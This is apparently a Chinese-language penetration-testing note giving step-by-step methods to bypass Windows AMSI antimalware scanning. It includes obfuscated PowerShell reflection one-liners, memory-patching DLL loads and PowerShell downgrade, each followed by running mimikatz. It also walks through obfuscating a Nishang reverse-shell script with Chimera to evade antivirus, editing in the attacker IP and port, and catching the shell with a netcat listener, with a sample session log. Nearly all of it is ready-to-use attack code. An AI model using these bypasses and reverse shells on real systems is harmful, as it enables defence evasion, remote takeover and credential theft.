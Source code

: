 	Windows 反恶意软件扫描接口 (AMSI)
 #### 方法一 混淆
	$a =[Ref].Assembly.GetType('System.Management.Automation.AmsiUt'+'ils')
	$h="4456625220575263174452554847"
	$s =[string](0..13|%{[char][int](53+($h).substring(($_*2),2))})-replace " "
	$b =$a.GetField($s,'NonPublic,Static')
	$b.SetValue($null,$true)
![image](/assets/Pentest_Note/master/img/720.png)

	或使用以下脚本
	https://github.com/RythmStick/AMSITrigger
	PS >  \AmsiTrigger.ps1 -i .\demo.ps1
 #### 方法二 内存劫持
	https://rastamouse.me/memory-patching-amsi-bypass/
	https://github.com/rasta-mouse/AmsiScanBufferBypass
	https://github.com/crawl3r/FunWithAMSI
	直接编译完使用即可
	[System.Reflection.Assembly]::LoadFile("C:\\Users\\test\\Desktop\\AmsiFun.dll")
	[Amsi]::Bypass()
![image](/assets/Pentest_Note/master/img/726.png)
![image](/assets/Pentest_Note/master/img/727.png)
![image](/assets/Pentest_Note/master/img/728.png)
 #### 方法三 Powershell降级
	$ PowerShell -version 2
 #### 方法四 强制报错
	PS > $mem = [System.Runtime.InteropServices.Marshal]::AllocHGlobal(9076)
	PS > [Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").GetField("amsiSession","NonPublic,Static").SetValue($null, $null);[Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").GetField("amsiContext","NonPublic,Static").SetValue($null, [IntPtr]$mem)
 #### 方法五 内存劫持混淆操作码
	https://gist.github.com/FatRodzianko/c8a76537b5a87b850c7d158728717998#file-my-am-bypass-ps1
	PS > .\my-am-bypass.ps1
	PS > "invoke-mimikatz"
 #### 方法六 反射绕过
	https://gist.github.com/shantanu561993/6483e524dc225a188de04465c8512909
	PS > .\am-bp-reflection.ps1
	PS > "invoke-mimikatz"
 #### 方法七 Nishang
	https://github.com/samratashok/nishang/blob/master/Bypass/Invoke-AmsiBypass.ps1
	PS > Import-Module .\nishang.ps1
	PS > Invoke-AmsiBypass -Verbose
	PS > "invoke-mimikatz"
 #### Powershell脚本混淆绕过amsi和av
	https://github.com/tokyoneon/Chimera
	以下是Invoke-PowerShellTcp.ps1的片段
```shell
$stream = $client.GetStream()
[byte[]]$bytes = 0..65535|%{0}

$sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
$stream.Write($sendbytes,0,$sendbytes.Length)

$sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>')
$stream.Write($sendbytes,0,$sendbytes.Length)

```
![image](/assets/Pentest_Note/master/img/813.png)

	经过Chimera处理后
```shell
              $xdgIPkCcKmvqoXAYKaOiPdhKXIsFBDov = $jYODNAbvrcYMGaAnZHZwE."$bnyEOfzNcZkkuogkqgKbfmmkvB$ZSshncYvoHKvlKTEanAhJkpKSIxQKkTZJBEahFz$KKApRDtjBkYfJhiVUDOlRxLHmOTOraapTALS"()
       # As the station slowly moves into position to obliterate the Rebels, the pilots maneuver down a narrow trench along the station’s equator, where the thermal port lies hidden.
          [bYte[]]$mOmMDiAfdJwklSzJCUFzcUmjONtNWN = 0..65535|%{0}
   # Darth Vader leads the counterattack himself and destroys many of the Rebels, including Luke’s boyhood friend Biggs, in ship-to-ship combat.

  # Finally, it is up to Luke himself to make a run at the target, and he is saved from Vader at the last minute by Han Solo, who returns in the nick of time and sends Vader spinning away from the station.
           # Heeding Ben’s disembodied voice, Luke switches off his computer and uses the Force to guide his aim.
   # Against all odds, Luke succeeds and destroys the Death Star, dealing a major defeat to the Empire and setting himself on the path to becoming a Jedi Knight.
           $PqJfKJLVEgPdfemZPpuJOTPILYisfYHxUqmmjUlKkqK = ([teXt.enCoDInG]::AsCII)."$mbKdotKJjMWJhAignlHUS$GhPYzrThsgZeBPkkxVKpfNvFPXaYNqOLBm"("WInDows Powershell rUnnInG As User " + $TgDXkBADxbzEsKLWOwPoF:UsernAMe + " on " + $TgDXkBADxbzEsKLWOwPoF:CoMPUternAMe + "`nCoPYrIGht (C) 2015 MICrosoft CorPorAtIon. All rIGhts reserveD.`n`n")
            $xdgIPkCcKmvqoXAYKaOiPdhKXIsFBDov.WrIte($PqJfKJLVEgPdfemZPpuJOTPILYisfYHxUqmmjUlKkqK,0,$PqJfKJLVEgPdfemZPpuJOTPILYisfYHxUqmmjUlKkqK.LenGth)
   # An imperial boarding party blasts its way onto the captured vessel, and after a fierce firefight the crew of Leia’s ship is subdued.

```
	VirusTotal报告检测到0个
![image](/assets/Pentest_Note/master/img/814.png)

	Kali下安装
	sudo apt-get update && sudo apt-get install -Vy sed xxd libc-bin curl jq perl gawk grep coreutils git
	sudo git clone https://github.com/tokyoneon/chimera /opt/chimera
	sudo chown $USER:$USER -R /opt/chimera/; cd /opt/chimera/
	sudo chmod +x chimera.sh; ./chimera.sh --help
	在shells /目录中有几个Nishang脚本和一些通用脚本。所有都已经过测试
	使用脚本之前，请将硬编码的IP地址（192.168.56.101）更改为您的Kali地址。
	/opt/chimera$ sed -i 's/192.168.56.101/<YOUR-IP-ADDRESS>/g' shells/*.ps1
	所有脚本的默认端口为4444。如果需要，再次使用sed进行更改。
	/opt/chimera$ sed -i 's/4444/<YOUR-DESIRED-PORT>/g' shells/*.ps1
	f：输入文件。
	-o：输出文件。
	-g：从脚本中省略几个Nishang特定的特征。
	-v：替换变量名称。
	-t：替换数据类型。
	-j：替代函数名称。
	-i：在每一行中插入任意注释。
	-c：用任意数据替换注释。
	-h：将IP地址转换为十六进制格式。
	-s：替换各种字符串。
	-b：在可能的情况下反引号字符串。
	-e：过程完成后，检查混淆文件。
	举例，nc反弹shell
	nc -v -l -p 4444
	把混淆好的脚本传入目标
	PS> powershell.exe -ep bypass C:\path\to\chimera.ps1
	获得shell
	nc -v -l -p 4444

	listening on [any] 4444 ...
	192.168.56.105: inverse host lookup failed: Host name lookup failure
	connect to [192.168.56.107] from (UNKNOWN) [192.168.56.105] 49725
	Windows PowerShell running as user  on
	Copyright (C) 2015 Microsoft Corporation. All rights reserved.
	
	PS C:\Users\target>
	一些使用说明
	https://github.com/tokyoneon/Chimera/blob/master/USAGE.md
